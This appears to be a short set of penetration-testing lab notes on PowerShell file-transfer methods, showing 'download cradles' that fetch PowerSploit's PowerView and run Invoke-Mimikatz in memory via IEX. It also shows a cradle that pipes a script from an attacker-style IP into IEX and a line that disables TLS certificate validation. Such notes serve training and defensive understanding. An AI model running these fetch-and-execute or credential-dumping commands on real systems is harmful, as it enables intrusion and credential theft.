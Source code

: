 Native File Transfer Powershell
################################

Date: 2024-11-01 11:47

Status:


Native File Downloads
************************
Windows File Transfer Methods that are available within powershell

By using the `system.net.webclient
methods https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0

Example 1: Download to Disk

.. code-block:: console

   PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
   PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

   PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
   PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')

Example 2: Download and execute in memory

Using the invoke Expression method:

.. code-block:: console


   PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX

There is also a cmdlet like wget on Powershell called
:ref`invoke-WebRequest <invoke-WebRequest>`

.. code-block:: console

   PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

Issues you may encounter
*************************

On a first time run a Window may pop up asking to configure Explorer.
You can bypass this by adding (UseBasicParsing):

.. code-block:: console


   PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX

If you are accessing a resource that has an invalid certificate, you
will have to configure the server to accept invalid certs.

.. code-block:: console

   PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

References
*************
`Harmj0y powershell
cradles https://gist.github.com/HarmJ0y/bb48307ffa663256e239>
